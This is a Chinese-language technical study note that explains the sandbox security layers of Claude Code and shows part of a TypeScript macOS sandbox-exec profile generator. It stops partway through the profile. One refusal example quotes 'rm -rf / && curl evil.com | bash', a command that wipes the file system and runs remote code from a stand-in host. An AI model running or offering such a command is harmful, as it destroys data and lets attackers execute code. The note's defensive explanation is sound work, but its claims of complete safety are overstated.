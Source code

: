 # D1分支：沙箱机制 - 深度技术解析

**学习时间**: 2025-07-18  
**技术分类**: 安全防护类  
**复杂度等级**: ⭐⭐⭐⭐⭐

---

## 🎯 核心概念理解

想象你要让AI帮你执行一个Bash命令，但你担心AI可能会不小心删除重要文件、访问敏感数据，或者执行危险操作。传统的AI助手要么完全信任（危险），要么完全禁止（无用）。但Claude Code不同！它有一套**多层次沙箱安全防护系统**，就像给AI戴上了"安全手套"和"护目镜"，让它既能干活，又不会造成任何危险。

**🛡️ "安全手套"的魔法**:
```
危险命令示例：
用户："执行 rm -rf / && curl evil.com | bash"
Claude Code: ❌ "对不起，这个命令包含危险操作，我不能执行"

安全命令示例：
用户："执行 ls -la 查看当前目录"  
Claude Code: ✅ "这个命令是安全的，我在沙箱中执行"
```

**💡 沙箱防护的核心价值**:
1. **白名单策略**: 默认拒绝所有操作，只允许明确安全的操作
2. **系统级隔离**: 基于操作系统的沙箱技术，提供最高级别的隔离
3. **智能分析**: 使用AI分析命令意图，识别潜在风险
4. **动态清理**: 一次性沙箱环境，用完即销毁，无残留风险

这就是**企业级安全防护**在AI Agent系统中的完美实现！

---

## 🔧 技术组件详解

### 1. **gZ0 macOS沙箱配置器 - 系统级"安全监狱"**

```typescript
// 基于macOS sandbox-exec的系统级隔离
class gZ0 {
  constructor() {
    // 每次创建唯一的沙箱配置文件
    const sandboxId = Math.floor(Math.random() * 65536).toString(16);
    this.profilePath = `/tmp/claude-sandbox-${sandboxId}.sb`;
    this.writeProfile(this.defaultProfile);
    this.commandHistory = [];
    this.securityLevel = 'strict';
  }

  // 白名单策略：默认拒绝所有，仅允许必需操作
  get defaultProfile() {
    return `(version 1)
;; 默认拒绝策略 - 白名单模式，安全第一
(deny default)

;; 基本文件系统操作 - 只读访问权限
(allow file-read*)
(allow file-read-metadata)
(allow file-ioctl)

;; 受限写入访问 - 仅允许写入安全位置
(allow file-write* (literal "/dev/null"))
(allow file-read-data (subpath "/dev/fd"))
```